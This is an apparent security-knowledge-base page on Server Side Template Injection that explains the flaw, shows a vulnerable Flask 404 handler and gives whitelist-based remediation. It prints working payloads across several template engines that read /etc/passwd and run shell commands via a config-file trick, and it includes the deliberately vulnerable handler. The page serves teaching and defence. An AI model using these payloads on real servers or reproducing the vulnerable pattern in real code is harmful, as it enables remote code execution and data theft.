

# [⬅️](./README.md) SSTI - Server Side Template Injection

## Severity:
High/Critical
## Description:
Execution of arbitrary code on the server by injecting a template directive as user input.
>Templates are used to present dynamic data via webpages and emails, allowing server side execution in a sandbox.
```php
$output = $twig->render([[UNTRUSTED_DATA]],  array("first_name" => $user.first_name) );
```
In the meta-code `[[UNTRUSTED_DATA]]` could be things like:
```php
{{7*7}} 👉 49
{{self}} 👉 Object__TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
{{ ''.__class__.__mro__[2].__subclasses__() }}
{php}echo `id`;{/php}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
{{system('whoami')}
```
## Vulnerable code:
## Steps to reproduce the vulnerability:
First you have to determine the type of application that is running and the programming language it was written in. Here we can use Burp Suite:

First we need to do some investigation on how the syntax works, so we dive into the [docs](https://jinja.palletsprojects.com/en/2.11.x/templates/)!
```
     for Statements
    {{ ... }} for Expressions to print to the template output
    {# ... #} for Comments not included in the template output
    #  ... ## for Line Statements
```
[Here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) you can find a list of templates to be used on `SSTI`
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

On position 40 whilst iterating over the different loaded classes we find the <type 'file'> class. The class itself has a read() method that we can use to read the "/etc/passwd" file from the filesystem.
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

This class can also be used to gain remote code execution, which we can turn into a (reverse) shell access
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output%5Cn%5CnRUNCMD = check_output%5Cn') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config allowing to `RUNCMD`
{{ config['RUNCMD']('netstat -an | grep LISTEN',shell=True) }} # voila! Have fun SSRF-ing
```

### Vulnerability spotted:
```python
@app.errorhandler(404)
def page_not_found(e):
    template = """
      <center>
        <p> {0} </p>
      </center>
    """.format(request.url)
    return render_template_string(template), 404
```
## Remediation description:
* Do not allow untrusted data to be part of your template.
* Only use static template files.
* If untrusted data is included, do input validation (white-list)
  * Use a hardened sandbox to avoid a major impact of a RCE
## Remediation code:
Sanitize the input before passing it into the templates by removing unwanted and risky characters before parsing the data. This minimizes the vulnerabilities for any malicious probing of your templates.
```python
def whitelist(url):
	whitelist = ["http://127.0.0.1:5000/some-404-info"]
	for b in whitelist:
		if url==b:
			return True
	return False

@app.errorhandler(404)
def page_not_found(e):
  template = """What are you doing???"""
  if whitelist(request.url):
    template = """
      <center>
        <h1>Nothing found, mon!</h1>
        <p> {0} </p>
      </center>
    """.format(request.url)
  return render_template_string(template), 404
```
